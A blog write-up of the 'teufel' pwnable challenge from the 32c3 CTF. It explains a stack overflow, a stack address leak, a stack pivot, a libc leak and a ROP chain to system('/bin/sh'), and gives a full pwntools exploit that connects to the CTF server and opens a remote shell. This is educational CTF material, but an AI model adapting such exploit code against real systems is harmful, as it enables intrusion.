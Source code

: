 ```yaml
---
layout: post
title: 32c3 Teufel
comments: true
category: ctf
tags: ctf, 32c3, pwnable
---
```


This is a write-up of the teufel challenge from the 32c3 CTF


## The Challenge

This was a 64-bit x86 binary pwnable.
The way it worked was that it allocated a new stack with a read-only guard page above it,
and then it entered a loop which called a function which was more or less equivalent to

{% highlight c %}
void read_read_puts(){
    long int n;
    if(read(0, &n, 8) <= 0) exit(0);
    if(read(0, &n, n) <= 0) exit(0);
    puts(&n);
}
{% endhighlight %}


## The Exploit

First of all, because the way the stack has been setup we can only put 24 bytes on the stack, namely `n`, `rbp`, and `rip`,
therefore we can only jump to one gadget, and we only control `rbp`.

However we are able to leak the address of the stack by only sending 9 bytes, and then let `puts` print it to us:
{% highlight python %}
from pwn import *

r = process("./teufel")

r.send(p64(9))
r.send("A"*9)

assert r.recvn(8) == "A"*8

stack = u64(r.recvline()[:-1].ljust(8,"\x00")) & ~0xfff
log.info("Stack is at 0x%x", stack)
{% endhighlight %}


{% highlight bash %}
$ python doit_teufel.py 
[+] Starting program './teufel': Done
[*] Stack is at 0x7fe6913aa000
[*] Stopped program './teufel'
{% endhighlight %}

Now that we know where the stack is, we found the gadget
{% highlight bash %}
loop:
4004d4: mov    rsp,rbp
4004d7: call   4004e6 <read_read_puts>
4004dc: jmp    4004d7 <loop>
{% endhighlight %}

Using this gadget we were able to pivot the stack, to get more space:

{% highlight python %}
mov_rsp_call = 0x4004d4
rop1 = flat([
    "A"*8,
    stack-0x100,
    mov_rsp_call
], word_size=64)

r.send(p64(len(rop1))+ rop1)
r.recvline()
{% endhighlight %}

Now attaching gdb at this point we can see whats on the stack:
{% highlight bash %}
gdb$ x/10xg $sp
0x7fec13046ee8: 0x0000000026250a61  0x00007fec13046f00
0x7fec13046ef8: 0x00000000004004dc  0x00000000568cdfd4
0x7fec13046f08: 0x000000002625d0da  0x0000000000000000
0x7fec13046f18: 0x0000000000000000  0x0000000000000000
0x7fec13046f28: 0x00007fec12e28740  0x00000000ffffffff
                ^ this is in libc
{% endhighlight %}

And we can leak this:

{% highlight python %}
r.send(p64(4*16))
r.send("A"*4*16)
assert r.recvn(4*16) == "A"*4*16
libc = u64(r.recvline()[:-1].ljust(8,"\x00")) - 0x3c5740
log.info("Libc is at 0x%x" % libc)  
{% endhighlight %}

{% highlight bash %}
$ python doit_teufel.py 
[+] Starting program './teufel': Done
[*] Stack is at 0x7fbb8f3b1000
[*] Libc is at 0x7fbb8edcd000
[*] Program './teufel' stopped with exit code -11
{% endhighlight %}

and then `teufel` crashes...
But becuase of the way the stack was allocated it is placed relative to libc,
so we can just restart the program, leak the address of the stack again, and then ROP in libc.

So this was the final exploit:

{% highlight python %}
from pwn import *

def new_process():
    #r = process("./teufel", env={"LD_LIBRARY_PATH": os.getcwd()})
    r = remote("136.243.194.41", 666)

    r.send(p64(9))
    r.send("A"*9)

    assert r.recvn(8) == "A"*8

    stack = u64(r.recvline()[:-1].ljust(8,"\x00")) & ~0xfff
    log.info("Stack is at 0x%x", stack)

    mov_rsp_call = 0x4004d4

    pivot_rop = flat([
        "A"*8,
        stack-0x100,
        mov_rsp_call
    ], word_size=64)

    r.send(p64(len(pivot_rop)) + pivot_rop)
    r.recvline()
    return r, stack

r, stack = new_process()
r.send(p64(4*16))
r.send("A"*4*16)

assert r.recvn(4*16) == "A"*4*16

libc = u64(r.recvline()[:-1].ljust(8,"\x00")) - 0x3c5740
log.info("Libc is at 0x%x" % libc)

diff = libc - stack

r, stack = new_process()
libc = stack + diff
log.info("Libc is at 0x%x" % libc)

pop_rdi = libc + 0x218a2
system = libc + 0x443d0

rop = flat([
    "/bin/sh\x00",
    0x0,
    pop_rdi,
    stack-0x100-0x18,
    system
], word_size=64)

r.send(p64(len(rop)) + rop)

r.clean()
r.interactive()
{% endhighlight %}

So we have a shell:
{% highlight bash %}
$ python doit_teufel.py 
[+] Opening connection to 136.243.194.41 on port 666: Done
[*] Stack is at 0x7f76345fc000
[*] Libc is at 0x7f7634012000
[+] Opening connection to 136.243.194.41 on port 666: Done
[*] Stack is at 0x7f7409b69000
[*] Libc is at 0x7f740957f000
[*] Switching to interactive mode
$ cat flag.txt
32C3_mov_pop_ret_repeat
{% endhighlight %}
